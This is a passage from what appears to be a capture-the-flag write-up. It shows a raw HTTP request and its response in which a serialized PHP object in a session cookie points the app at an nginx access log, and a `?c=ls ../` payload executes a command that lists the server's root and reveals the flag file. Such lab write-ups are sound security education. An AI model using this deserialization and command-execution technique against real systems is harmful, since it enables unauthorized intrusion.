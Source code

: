 So in the next step we use our code execution to get the name of the flag.  
payload: `ls ../`
```http
GET /?c=ls+../ HTTP/1.1
Host: 127.0.0.1:1337
sec-ch-ua: "Chromium";v="117", "Not;A=Brand";v="8"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoyNToiL3Zhci9sb2cvbmdpbngvYWNjZXNzLmxvZyI7fQ==
Connection: close

HTTP/1.1 200 OK
Server: nginx
Date: Thu, 21 Sep 2023 10:10:40 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
X-Powered-By: PHP/7.4.26
Content-Length: 477

172.17.0.1 - 200 "GET / HTTP/1.1" "-" "bin
dev
entrypoint.sh
etc
flag_lBfIt
home
lib
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
www
" 

```
